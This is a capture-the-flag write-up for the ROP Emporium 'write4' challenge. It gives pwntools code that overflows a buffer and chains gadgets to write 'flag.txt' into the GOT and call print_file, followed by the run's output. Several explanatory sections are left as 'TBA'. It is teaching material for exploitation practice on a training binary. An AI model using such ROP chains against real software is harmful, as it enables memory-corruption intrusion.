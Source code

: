 # 4 write4

This challenge gives you an approach on read and write permissions in the running binary (writing data to GOT such as "flag.txt" in our case).

## Understanding

TBA

## Objective

1. find pattern length (same as first [challenge](https://github.com/l0x539/CTFs-writeups/tree/master/ropemporium/ret2win)).
2. find the gadgets needed to write to an address memory.
3. find print\_file plt address (automated with pwtools).
4. chain the ropes.
5. exploit.

## Understanding the gadgets needed to write to an address and read from it

TBA

## Recon

Same as first [challenge](https://github.com/l0x539/CTFs-writeups/tree/master/ropemporium/ret2win).

Running `$ rabin2 -SS write4` gives the sections with read, write, execute permissions (we're only interested in r and w).

## Execution

TBA

## Writing exploit

in a file called [exploit.py](https://github.com/l0x539/CTFs-writeups/blob/master/ropemporium/write4/exploit.py)

with [pwntools](http://docs.pwntools.com/en/stable/) on python3.

* Imports:

```python3
from pwn import cyclic, process, ROP, ELF, p64
```

* Running and load binary file:

```python3
_FILE = "./write4"

p = process(_FILE)
binary = ELF(_FILE, checksec=False)
```

* Roping the binary:

```python3
rop = ROP(binary)
```

* Assigning gadgets that laods from the stack

```python3
pop_r14_r15 = rop.find_gadget(["pop r14", "pop r15", "ret"])[0]
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]                      # or 0x00400692
```

* Load from the stack to a memory location:

This instruction copies content of r15 to an address pointed by r14.

```python3
pop_qword_r14 = 0x400628 # rop.find_gadget(["mov QWORD PTR [r14], r15", "ret"])[0]   # or 0x00400628 is open file argument
```

* The address to write to our string "flag.txt\0":

it's close to `pwnme@plt` but making sure it don't overwrite `print_file@plt`

```python3
pwnme_got =  binary.got['pwnme'] + 16 # 0x00600e00  # we gonna write "flag.txt" in this address +16 cause we don't wanna overwrite print_file got.plt address
```

* `print_file@plt` address to call:

```python3
print_file = binary.plt['print_file']
```

* The string to load in the stack and then to an address the to pass as an argument:

string should look like `string = "flag.txt" + "\x00"`, and that's what the next two python lines are doing.

```python3
flag_txt_str = b"flag.txt" # 8 characters
EOL = p64(0x0)             # adding null character at the end right after flag.txt so the file reader can open it.
```

the string should look like in the written address for the file to be opened:
```
<pwnme@got+16 addr>  flag.txt
<pwnme@got+24 addr>  NULL BYTE + WHATEVER WAS THERE
```

null byte at the end of string is important!

* Crafting the payload:

creating pattern of 40 characters `"A"*40`

```python3
# chaining
payload = cyclic(40, n=8)       # generating 40 characters pattern
```

* Loading Null Byte to the desired address that has write perms (in GOT table):

```python3
## add null character right after the string ==> string[1] = "\x00"*8
payload += p64(pop_r14_r15)
payload += p64(pwnme_got+1)
payload += EOL      # load this string to rdi (aka argument)
payload += p64(pop_qword_r14)
```

* Loading flag.txt same way:

```python3
## adding flag.txt ==> string[0] = "flag.txt";    notice that flag.txt is 8 character, if it was only 7 we could've got rid of the previous part doing string = "lag.txt\x00"
payload += p64(pop_r14_r15)
payload += p64(pwnme_got)
payload += flag_txt_str      # load this string to rdi (aka argument)
payload += p64(pop_qword_r14)
```

* Calling `print_file` with the argument:

that's similar to `print_file("flag.txt")`

```python3
## passing flag.txt\0 as an argument to print\_file
payload += p64(pop_rdi)
payload += p64(pwnme_got)
payload += p64(print_file)

```

* Sending payload and receiving output:


```python3
# interacting and sending payload
print(p.recvuntil("> ").decode("latin-1"))

p.sendline(payload)

# printing output
print(p.clean().decode("latin-1"))
```

Out put gives:

```
$ python3 exploit.py 
[+] Starting local process './write4': pid 27379
[*] Loaded 13 cached gadgets for './write4'
[*] pwnme: 0x601028
write4 by ROP Emporium
x86_64

Go ahead and give me the input already!

> 
Thank you!
ROPE{a_placeholder_32byte_flag!}

```

And we got the flag!
